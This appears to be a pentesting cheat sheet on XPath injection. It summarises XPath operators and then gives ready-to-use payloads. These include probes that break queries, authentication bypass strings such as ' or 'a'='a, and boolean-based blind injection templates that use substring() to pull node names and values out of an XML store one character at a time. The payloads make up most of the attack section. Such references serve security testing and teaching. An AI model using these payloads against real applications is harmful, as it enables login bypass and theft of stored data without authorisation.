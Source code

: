 # XPath injection

## XPath

### Operator list

#### Select nodes

```
/             #select root
//            #select all nodes regardless of position
*[1]          #current node
name(*[1])    #name of current node
<node>/       #select all immediate children of <node>
<node>//      #select all children of <node> including sublevels
<node>/<sub>  #select a child of <node> named <sub>
<node>//<sub> #select a child of <node> named <sub> regardless of position
```

#### Attributes

```
@                     #select an attribute
/@<name>              #select all attributes named <name>
<node>[@<attr>]       #select a node of type <node> with attribute <attr>
<node>[@<attr>='val'] #select a node of type <node> that satisfy the condition
<node>/text()         #get the plain text included between two tags of type <node>
<node>/position()     #get current node index related to its brothers
```

#### Complex select

```
<node>[<sub>]                #select all nodes of type <node> with a subnode of type <child>
<node>[<sub>/text()='<val>'] #select all <node> whose subnode is of type <sub> and contains <val> as text
<node>[position()=<n>]       #select a node in the <n>th position
```

#### Logic operators

```
[<s1> and <s2>]    #AND
[<s1> or <s2>]     #OR
[not(<s1>)]        #NOT can include more statements inside i.e. not(a or not(b))
```

## Injection attacks

### Testing for injection

Insert a `'` or a `` ` `` to try and break the statement

```
' or `         #expect error for incomplete statement
or 'a' = 'a'   #expect always true result or the statement returns all elements
and 'a' = 'b'  #expect always false result
```

### Authentication bypass

```
' or 'a'='a
' or 'a'='a' or 'a'='a    #turns an A and B statement into (A or true) or (true and B). In this stamement only the first part is checked because it is always true
```

### Retrieve file structure

In order to build the file structure of the underlying XML record it is necessary to bruteforce the nodes names. In order to do so we perform a boolean based injection to iterate on each character of the node in order to find out whether it is contained in the tag or not. Once we discover the name of a node we repeat the operatione for each child

#### Find Root identifier

Find a valid query and concatenate the following payload to verify if the letter of the node name at the index \<idx> is equal to \<char>

```
<valid query>' or substring(name(*[1]),<idx>,1) = '<char>
<valid query> or substring(name(*[1]),<idx>,1) = <char>
```

Once the statement completes successfully increase the \<idx> value by one and repeat

#### Build data

To detect the name of the subnodes modify the path as follows

```
<valid query>' or substring(/<root>/<node1>/*,<idx>,1) = '<char>
<valid query> or substring(/<root>/<node1>/*,<idx>,1) = <char>
```

To access the value of the subnode in position \<pos> modify the path as follows

```
<valid query>' or substring(/<root>/<node1>[position()=<pos>],<idx>,1) = '<char>
<valid query> or substring(/<root>/<node1>[position()=<pos>],<idx>,1) = <char>
```

